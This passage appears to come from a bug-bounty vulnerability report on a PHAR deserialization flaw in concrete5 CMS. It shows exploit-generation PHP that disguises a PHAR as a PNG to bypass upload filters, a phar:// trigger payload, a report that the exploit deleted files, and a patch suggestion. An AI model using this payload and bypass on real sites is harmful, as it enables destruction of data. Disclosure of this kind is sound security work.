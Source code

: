 ```php
  $phar->stopBuffering();

  // Change file extension PHAR to PNG. (for bypassing file upload restrictions)
  $changing_file_name = "concrete5_exploit.png";
  $changing_internal_full_path = $output_path . "/" . $changing_file_name;
  rename($exploit_file, $changing_file_name);
}


// Run below command to make PHAR file.
// php generate_exploit.php
```

#### Stage #2. Upload PHAR file.

- Fortunately, concrete5 supports file upload featue.
  - Navigation: Dashboard => Files => File Manager => Upload Files

{F903877}

{F903878}

#### Stage #3. Triggering PHAR deserialization bug.

- Navigation: Dashboard => System&Settings => File Storage Location => Add Location
- Payload: `phar://./application/files/6815/9449/9442/concrete5_exploit.png`

{F903879}



#### Exploit Before / After

- Before (Directory: /var/www/html/phar_exploit/test_dir)

{F903880}

- After (Directory)

{F903881}

- test1/2/3.txt were deleted by exploit.



### Patch

- To avoid PHAR deserialization bug,  you should not fully trust the user's input. You can sanitize a user's input in various ways.

  1. Occurring an error when the user enters "phar://".

     ```php
     <?php
     // input_path is phar://path/to/file
     if(strpos($input_path, "phar://") !== FALSE){
         trigger_error("Detected phar wrapper!", E_USER_ERROR); // phar detected.
     }
     else{
         is_dir($input_path);
     }
     ?>
     ```
